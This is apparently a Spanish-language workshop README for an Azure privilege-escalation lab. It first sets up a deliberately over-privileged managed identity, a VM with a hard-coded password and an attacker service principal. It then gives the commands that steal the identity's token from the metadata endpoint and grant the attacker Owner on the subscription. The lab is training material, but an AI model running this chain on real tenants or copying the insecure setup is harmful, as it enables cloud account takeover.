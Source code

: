 # Escalada-de-Privilegios-en-Azure

## Fase 1: Configuración del Entorno Vulnerable

### Paso 1: Crear un Grupo de Recursos

Este grupo de recursos contendrá todos los elementos del laboratorio.

az group create --name lab-escalation --location eastus

### Paso 2: Crear una Identidad Administrada Asignada por el Usuario

Esta identidad tendrá permisos elevados que serán explotados más adelante.

az identity create --name labidentity --resource-group lab-escalation

### Paso 3: Introducir la Vulnerabilidad Principal

Asignamos el rol de User Access Administrator a la identidad sobre toda la suscripción. Este es un privilegio excesivo y el núcleo de la vulnerabilidad, ya que este rol permite gestionar los permisos de otros usuarios.

Obtener el ID de la suscripción

subscriptionId=$(az account show --query id --output tsv)

Obtener el ID de la entidad de servicio de la identidad administrada

identityPrincipalId=$(az identity show --name "labidentity" --resource-group "lab-escalation" --query principalId --output tsv)

 Asignar el rol de "User Access Administrator" a la identidad administrada sobre toda la suscripción
 ESTE ES EL CAMBIO CLAVE
 
az role assignment create \
    --assignee $identityPrincipalId \
    --role "User Access Administrator" \
    --scope "/subscriptions/$subscriptionId"


### Paso 4: Crear una Máquina Virtual y Asignarle la Identidad Administrada

Esta VM será el punto de entrada para los participantes.

az vm create \
    --resource-group "lab-escalation" \
    --name "compromised-vm" \
    --image "Ubuntu2204" \
    --admin-username "franklin" \
    --admin-password "Franklin.123456" \
    --assign-identity "labidentity"

### Paso 5: Crear un Usuario con Permisos Limitados

Creamos un Service Principal con permisos para ejecutar comandos en la VM. El rol Virtual Machine Contributor es necesario para permitir la ejecución de run-command.

Obtener el ID de la VM

vmId=$(az vm show --resource-group "lab-escalation" --name "compromised-vm" --query id --output tsv))

Crear el Service Principal con permisos sobre la VM

sp_credentials=$(az ad sp create-for-rbac --name "attacker-sp" --role "Virtual Machine Contributor" --scopes $vmId)

Mostrar las credenciales que se entregarán a los participantes

echo "--- Credenciales para los Participantes del Workshop ---"

echo $sp_credentials

echo "--------------------------------------------------------"

Acción: Copiar  (appId, password, tenant) generadas


¡Importante! ejecuta el archivo .sh para si quieres desplegar todo lo anterior mencionado.

## Fase 2: Ejecución de la Escalada de Privilegios 

### 2.1. Obtener Acceso Inicial y Verificar Control
Iniciar sesión con las credenciales de atacante y confirmar que se pueden ejecutar comandos en la VM.

1. Iniciar sesión con las credenciales proporcionadas
   
az login --service-principal \
    -u "EL_APPID_PROPORCIONADO" \
    -p "EL_PASSWORD_PROPORCIONADO" \
    --tenant "EL_TENANT_ID_PROPORCIONADO"


### 2. Descubrimiento de la Identidad Administrada

Dentro de la VM (simulado a través de run-command), el siguiente paso es descubrir la identidad administrada.

Este script completo se ejecuta dentro de la VM para obtener el token y listar recursos

   1. Instalar silenciosamente jq, una herramienta necesaria para parsear JSON
      
      sudo apt-get update > /dev/null 2>&1 && sudo apt-get install -y jq > /dev/null 2>&1

  3. Obtener el token de acceso de la identidad, usando jq para extraerlo
     
        token=$(curl -s "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/" -H Metadata:true | jq -r .access_token)
        
      3. Usar el token para realizar una llamada a la API de Azure y listar recursos
         
       curl -s -X GET -H "Authorization: Bearer $token" "https://management.azure.com/subscriptions/$(az account show --query id -o tsv)/resourceGroups/lab-escalation-rg/resources?api-version=2021-04-01"

Resultado Esperado: Una salida JSON con la lista de todos los recursos del grupo lab-escalation. Esto prueba que el atacante ahora opera con los permisos de la identidad (User Access Administrator).

### Paso 2.1: Escalada Final a Propietario (Owner)
Utilizar el poder adquirido para tomar control total.
A. (En la máquina local) Obtener el Object ID del Service Principal atacante

user_object_id=$(az ad sp list --display-name "attacker-sp" --query "[0].id" -o tsv)
echo "El Object ID del atacante es: $user_object_id"


B. (Ejecutado en la VM) Usar la identidad para asignar el rol de Owner al atacante

  Reemplaza <Tu_Object_ID> y <ID_de_tu_Suscripcion> con tus valores.
  
  az login --identity > /dev/null 2>&1

  Asignar el rol de Propietario al Object ID del atacante
  
 az role assignment create --assignee "<Tu_Object_ID>" --role "Owner" --scope "/subscriptions/<ID_de_tu_Suscripcion>"

    
Resultado Esperado: Una salida JSON que confirma la creación de la nueva asignación de rol.

para deslogearte de la identidad administrada ejecuta el siguiente script

az logout

e inicia sesion con el owner que es el service principal

az login --service-principal \
    -u "EL_APPID_PROPORCIONADO" \
    -p "EL_PASSWORD_PROPORCIONADO" \
    --tenant "EL_TENANT_ID_PROPORCIONADO"

(En la máquina local) El atacante, ahora Owner, crea un nuevo grupo de recursos

az group create --name "prueba-de-control-total" --location "westus"
